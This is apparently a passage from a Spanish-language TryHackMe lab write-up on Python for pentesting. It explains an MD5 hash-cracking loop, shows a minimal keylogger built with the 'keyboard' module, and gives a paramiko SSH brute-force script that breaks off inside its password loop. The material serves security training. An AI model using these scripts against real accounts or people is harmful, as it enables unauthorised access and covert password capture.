 Podemos observar, saltándonos una descripción minuciosa del script, que lo que hace es pedir al usuario una lista de posibles candidatos, el hash a crackear e implementa un bucle en el que lee línea a línea cada uno de los candidatos y los transforma de acuerdo al formato escogido

```python
hash_ob = hashlib.md5(line.strip().encode())
```

que en este caso es md5 (MD5 hash value) pero que puede ser uno de los muchos que python soporta gracias a la librería hashlib

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220907210816.png' | relative_url }}" text-align="center"/>
</div>

y luego compara ambas cadenas de caracteres. Así, si hay un match, muestra el candidato por pantalla.

<br />

**Keylogger**

Un keylogger es un tipo de malware que registra todas las teclas del ordenador que el usuario pulsa. Eficaz para recopilar información sensible, como contraseñas, correos, etc.

Podemos construir un script con Python para fabricar un keylogger gracias al modulo 'keyboard' instalable desde pip3:

```bash
pip3 install keyboard
```

El código es:

```python
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

<br />

**SSH Bruteforcing**

Podemos llevar a cabo un ataque de fuerza bruta para autenticarnos en un servicio. En este caso por ejemplo en SSH:

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	try:
		ssh.connect(target, port=22, username=username, password=password)
	except paramiko.AuthenticationException:
		code = 1
	ssh.close()
	return code

with open(password_file, 'r', encoding='latin-1') as file:
	for line in file.readlines():
		password = line.strip()

```